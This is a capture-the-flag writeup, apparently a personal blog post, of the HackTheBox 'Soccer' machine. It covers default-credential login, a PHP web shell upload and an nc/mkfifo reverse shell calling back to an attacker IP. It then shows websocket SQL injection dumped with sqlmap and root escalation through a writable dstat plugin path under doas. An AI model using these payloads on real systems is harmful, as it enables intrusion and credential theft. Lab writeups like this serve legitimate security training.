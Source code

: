 ```yaml
---
layout: single
title: Soccer hackthebox writeup
excerpt: "Easy linux machine in which we upload malicious files, we do a sqli in a websocket and privesc thanks to doas and dstat"
date: 2022-12-27
classes: wide
header:
  teaser: /assets/images/soccer/soccer_icon.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - fuzzing
  - MySQL
  - SQL injection
  - websocket
  - doas
---
```


![](/assets/images/soccer/soccer.png)

## User Flag

```shell
 nmap -sS -p- -n -Pn --min-rate 5000 -vv 10.10.11.194

PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
9091/tcp open  xmltec-xmlmail syn-ack ttl 63
```

At first finding port 9091 open was a little bit confusing however, let's focus on port 80 as usual. On the main page nothing really meaningful shows so I started fuzzing. (As always add the url to your `/etc/hosts`)

```shell
ffuf -w ~/wordlist/directory-list-2.3-big.txt  -u http://soccer.htb/FUZZ -v -t 200

[Status: 301, Size: 178, Words: 6, Lines: 8]
| URL | http://soccer.htb/tiny
| --> | http://soccer.htb/tiny/
    * FUZZ: tiny

```

Now we have a login page but none of our login bypass techniques seems to work (sqli,nosqli,ldap...) so I searched for `tiny file manager` to see if it had a github repo or something similar and it did. In [this part of the repo](https://github.com/prasathmani/tinyfilemanager#:~:text=Default%20username/password%3A%20admin/admin%40123%20and%20user/12345.) we have the default credentials, let's try these out.

Now that we logged in if you search for exploits you may find a couple however, we do not need them since we can just create our own directory and upload our files. If you go to `/tiny/uploads` you can create a new directory by pressing the `New item` button. Just create a folder and upload some malicious files to get reverse shell access. In my case I uploaded 2 files, `cmd.php`& `shell.sh`, and set the `shell.sh` perms to executable.


```shell
#cmd.php
<?php system($_REQUEST['cmd']); ?>
```

```shell
#shell.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.52 7777 >/tmp/f
```

Now by visiting the url `http://soccer.htb/tiny/uploads/test/file.php?cmd=bash%20./shell.sh` and opening a port we have reverse shell access.

```shell
 nc -lvp 7777
Connection from 10.10.11.194:52058
bash: cannot set terminal process group (1041): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:~/html/tiny/uploads/test$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<st$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@soccer:~/html/tiny/uploads/test$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$  stty raw -echo;fg
[1]  + continued  nc -lvp 7777
                              script /dev/null -c bash
Script started, file is /dev/null
www-data@soccer:~/html/tiny/uploads/test$ export TERM=xterm
www-data@soccer:~/html/tiny/uploads/test$ stty rows 30 columns 132
www-data@soccer:~/html/tiny/uploads/test$
```

Once we have a comfortable environment to work with it's time to start searching how to privesc to user player. By going through the nginx config files we found a new subdomain

```shell
cd /etc/nginx/sites-enabled/
www-data@soccer:/etc/nginx/sites-enabled$ ls
default  soc-player.htb
```

We can visit it by adding it to our `/etc/hosts`. If we create a user we will be able to use the ticketing functionality and If you intercept that request with burpsuite you will find that is going to a WebSocket in port 9091. This is vulnerable to sql injection. just try the payload `1 union select 1,2,3` and it will return ticket exists. However, we can't manually dump the database but `sqlmap` can do it for us with time-based injections. Nevertheless, sqlmap doesn't have any well-documented option to attack web sockets so I'm going to use a tool created by [Rayhan0x01](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html). Once we have the tool ready let's use it. (This is going to take so time since it is a time-based injection)

```shell
[dasor@archlinux ~/htb/soccer]$ python3 middleware.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
...
[dasor@archlinux ~/htb/soccer]$ sqlmap -u http://localhost:8081/?id=1 --dbs
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5641 FROM (SELECT(SLEEP(5)))NSUp)
---
[12:21:18] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
[12:21:52] [INFO] adjusting time delay to 1 second due to good response times
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Let's now check the tables of the DB soccer_db

```shell
sqlmap -u http://localhost:8081/?id=1 -D soccer_db --tables
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Then the columns

```shell
sqlmap -u http://localhost:8081/?id=1 -D soccer_db -T accounts --columns
Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```

Lastly let's dump both of the colummns password and username.

```shell
Database: soccer_db
Table: accounts
[1 entry]
+----------------------+----------+
| password             | username |
+----------------------+----------+
| PlayerOftheMatch2022 | player   |
+----------------------+----------+
```

At this point we can get the user flag.

```shell
su player
Password:
player@soccer:/etc/nginx/sites-enabled$ cd
player@soccer:~$ ls
user.txt
```

## Root flag

Now by doing the usual privesc checklist we find something interesting if we search for SUID binaries.

```shell
player@soccer:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
...
```

doas is a tool similar to sudo and that I actually use in some of my computers so I checked it's config file.

```shell
player@soccer:~$ cat $(find / -iname doas.conf 2>/dev/null)
permit nopass player as root cmd /usr/bin/dstat
```

Basically, the config file implies that we are allowed to execute dstat as root without a password. By checking `dstat -h` we see it can load python plugins but we can't write in the plugins directory

```shell
player@soccer:~$ doas /usr/bin/dstat --list
internal:
        aio,cpu,cpu-adv,cpu-use,cpu24,disk,disk24,disk24-old,epoch,fs,int,int24,io,ipc,load,lock,mem,mem-adv,
        net,page,page24,proc,raw,socket,swap,swap-old,sys,tcp,time,udp,unix,vm,vm-adv,zones
/usr/share/dstat:
        battery,battery-remain,condor-queue,cpufreq,dbus,disk-avgqu,disk-avgrq,disk-svctm,disk-tps,disk-util,disk-wait,
        dstat,dstat-cpu,dstat-ctxt,dstat-mem,fan,freespace,fuse,gpfs,gpfs-ops,helloworld,ib,innodb-buffer,innodb-io,
        innodb-ops,jvm-full,jvm-vm,lustre,md-status,memcache-hits,mongodb-conn,mongodb-mem,mongodb-opcount,mongodb-queue,
        mongodb-stats,mysql-io,mysql-keys,mysql5-cmds,mysql5-conn,mysql5-innodb,mysql5-innodb-basic,mysql5-innodb-extra,
        mysql5-io,mysql5-keys,net-packets,nfs3,nfs3-ops,nfsd3,nfsd3-ops,nfsd4-ops,nfsstat4,ntp,postfix,power,
        proc-count,qmail,redis,rpc,rpcd,sendmail,snmp-cpu,snmp-load,snmp-mem,snmp-net,snmp-net-err,snmp-sys,snooze,
        squid,test,thermal,top-bio,top-bio-adv,top-childwait,top-cpu,top-cpu-adv,top-cputime,top-cputime-avg,top-int,
        top-io,top-io-adv,top-latency,top-latency-avg,top-mem,top-oom,utmp,vm-cpu,vm-mem,vm-mem-adv,vmk-hba,vmk-int,
        vmk-nic,vz-cpu,vz-io,vz-ubc,wifi,zfs-arc,zfs-l2arc,zfs-zil

```

But if we look deeply into the manual we can find the last step.


```shell
       Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/
```

We have write permissions on `/usr/local/share/dstat` so by creating a simple script we can get root


```shell
player@soccer:/usr/local/share/dstat$ cat > dstat_shell.py
import os;
os.system("bash")
^C
player@soccer:/usr/local/share/dstat$ ls
dstat_shell.py
player@soccer:/usr/local/share/dstat$ doas /usr/bin/dstat --shell
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/usr/local/share/dstat# whoami
root
```

